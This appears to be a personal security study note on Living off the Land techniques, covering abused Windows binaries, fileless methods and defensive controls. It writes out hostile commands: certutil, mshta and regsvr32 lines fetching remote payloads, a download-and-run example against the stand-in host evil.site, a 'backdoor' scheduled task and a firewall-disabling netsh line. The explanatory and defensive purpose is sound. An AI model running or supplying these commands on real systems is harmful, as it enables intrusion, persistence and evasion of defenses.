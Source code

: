**Living off the Land (LotL)** refers to the use of legitimate system tools and native binaries to carry out malicious activity, avoiding detection by blending into normal operations.

---

## 🎯 Purpose of LotL Techniques

- Evade security tools (AV/EDR)
- Avoid dropping custom malware
- Use trusted, signed tools already present on the system
- Maintain stealth and persistence

---

## 🧰 Common LOLBins (Living Off the Land Binaries)

| Binary/Tool         | Purpose Used By Attackers                      | Example Command                                         |
|---------------------|------------------------------------------------|--------------------------------------------------------|
| `PowerShell`        | Execute payloads, download scripts             | `powershell -enc <Base64Payload>`                      |
| `WMIC`              | Run commands remotely                          | `wmic process call create "calc.exe"`                  |
| `Certutil`          | Download or encode/decode files                | `certutil -urlcache -split -f http://... malware.exe`  |
| `Mshta.exe`         | Execute malicious HTA (HTML apps)              | `mshta http://malicious.hta`                           |
| `Rundll32.exe`      | Execute DLLs with exported functions           | `rundll32.exe mymalware.dll,EntryPoint`                |
| `Regsvr32.exe`      | Register or execute COM objects                | `regsvr32 /s /n /u /i:http://malicious.sct scrobj.dll` |
| `Bitsadmin`         | Download/upload files in the background        | `bitsadmin /transfer job http://...`                   |
| `Task Scheduler`    | Establish persistence                          | `schtasks /create /tn backdoor /tr malware.exe ...`    |
| `Explorer.exe`      | Inject into trusted process                    | Used in process hollowing                              |
| `Netsh`             | Alter firewall settings                        | `netsh advfirewall set allprofiles state off`          |

---

## 🛠 Techniques Used

| Technique               | Description                                                            |
|-------------------------|------------------------------------------------------------------------|
| **Dual-use Tools**      | Using legitimate admin tools like `PsExec`, `Sysinternals`, or `NirCmd`|
| **Fileless Malware**    | Memory-resident code leveraging system tools without writing to disk   |
| **Script-based Execution** | Running `.bat`, `.vbs`, `.js` scripts natively using built-in interpreters|
| **Macro-enabled Docs**  | Using Office macros and trusted binaries like `MSBuild` for execution   |
| **Environment Abuse**   | Hiding payloads in registry, WMI, or Scheduled Tasks                    |

---

## 🧱 Defense Strategies

| Control Type     | Defense Technique                                           |
|------------------|-------------------------------------------------------------|
| **Preventive**   | App whitelisting (e.g., AppLocker, WDAC), disable unused tools |
| **Detective**    | Log analysis with Sysmon, Event Viewer, SIEM correlation    |
| **Corrective**   | Remove persistence artifacts, rotate credentials            |
| **Technical**    | EDR platforms with behavior analytics, command-line logging |
| **Operational**  | Admin account auditing, reduce privilege creep              |
| **Managerial**   | Enforce policy restricting script/tool usage                |

---

## ⚔️ Red Team vs Blue Team

- **Red Team**: Uses LOLBins to bypass AV, e.g. `Invoke-Obfuscation`, `Empire`, Cobalt Strike.
- **Blue Team**: Detects anomalous use of built-in binaries, e.g. `rundll32` spawning `cmd.exe`.

---

## 🔬 Real-World Example

```powershell
# Using certutil to download and execute a payload
certutil.exe -urlcache -split -f http://evil.site/payload.exe payload.exe
start payload.exe
```

- Completely fileless variant may execute payload directly in memory using PowerShell.

---

## 🗂 Related Topics

- [[Living off the Land Binaries (LOLBins)]]
- [[Defense Evasion Techniques]]
- [[PowerShell Attacks]]
- [[EDR & Threat Detection]]
- [[Process Injection]]
- [[Malware Persistence]]
- [[Windows Event IDs]]

---

## 🏷 Tags

#living_off_the_land #lotl #lolbins #malware #redteam #blueteam #powershell #defense_evasion #edr #fileless_malware